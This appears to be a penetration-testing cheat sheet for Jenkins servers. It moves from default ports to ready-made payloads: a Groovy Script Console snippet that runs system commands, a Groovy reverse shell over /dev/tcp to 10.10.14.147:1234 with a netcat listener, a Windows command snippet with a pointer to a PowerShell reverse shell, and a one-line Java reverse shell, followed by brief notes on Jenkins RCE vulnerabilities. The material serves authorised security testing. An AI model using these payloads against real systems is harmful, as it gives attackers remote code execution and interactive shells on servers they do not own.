

# Pentesting Jenkins

[Jenkins](https://www.jenkins.io/) is an open-source automation server written in Java that helps developers build and test their software projects continuously. Similar to Tomcat.

Jenkins runs on Tomcat port 8080 by default. It also utilizes port 5000 to attach slave servers. This port is used to communicate between masters and slaves. Jenkins can use a local database, LDAP, Unix user database, delegate security to a servlet container, or use no authentication at all.

## Version

It's usually in the footer section.

## Command execution

### Script Console

Once we have gained access to a Jenkins application, a quick way of achieving command execution on the underlying server is via the [Script Console](https://www.jenkins.io/doc/book/managing/script-console/) located under "Manage Jenkins" tab.

#### Web shell

Some snippet code that we could use:

```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```


#### Reverse shell
Some snippet code that we could use:

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.147/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```



And have a listener in our attacking machine.

```bash
nc -lnvp 1234      
```


### Windows

#### Invoke-PowerShellTcp.ps1

Against a Windows host, we could attempt to add a user and connect to the host via RDP or WinRM or, to avoid making a change to the system, use a PowerShell download cradle with [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). We could run commands on a Windows-based Jenkins install using this snippet:

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```

#### Java Reverse shell

Save this file, but modify first  host and port.

```java
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```


## Other RCEs 

- CVE-2018-1999002 and [CVE-2019-1003000](https://jenkins.io/security/advisory/2019-01-08/#SECURITY-1266) This flaw allows users with read permissions to bypass sandbox protections and execute code on the Jenkins master server. This exploit works against Jenkins version 2.137.
- Another vulnerability exists in Jenkins 2.150.2, which allows users with JOB creation and BUILD privileges to execute code on the system via Node.js. This vulnerability requires authentication, but if anonymous users are enabled, the exploit will succeed because these users have JOB creation and BUILD privileges by default.